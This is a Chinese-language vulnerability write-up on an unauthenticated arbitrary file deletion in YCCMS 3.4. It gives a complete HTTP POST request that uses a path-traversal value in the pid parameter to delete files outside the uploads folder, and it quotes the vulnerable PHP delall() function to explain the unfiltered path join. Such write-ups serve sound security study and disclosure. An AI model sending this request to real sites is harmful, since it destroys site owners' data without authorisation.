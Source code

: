 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

YCCMS 3.4

### 三、复现过程 ###
    POST /admin/?a=pic&m=delall HTTP/1.1
    Host: 127.0.0.1:8082
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 89
    Origin: http://127.0.0.1:8082
    Connection: close
    Referer: http://127.0.0.1:8082/admin/?a=pic
    Upgrade-Insecure-Requests: 1
    
    pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t
只需要更改pid[0]即可在无登录条件下任意删除文件，删除根目录下的1.txt
![](YCCMS3.4任意文件删除.assets/20200510143520-6bc12876-9288-1.png)
已经删除成功了

![](YCCMS3.4任意文件删除.assets/20200510143550-7d8c00bc-9288-1.png)

其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生
根据url定位到相关函数位置,位于/controller/PicAction.class.php

    public function delall(){
    if(isset($_POST['send'])){
    if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
    $_fileDir=ROOT_PATH.'/uploads/';
    foreach($_POST['pid'] as $_value){
    $_filePath=$_fileDir.$_value;
    if(!unlink($_filePath)){
    tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
    }else{
    header('Location:?a=pic');
    }
    }
    
    }
    
    }
对 pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

### 参考链接 
https://xz.aliyun.com/t/7748#toc-4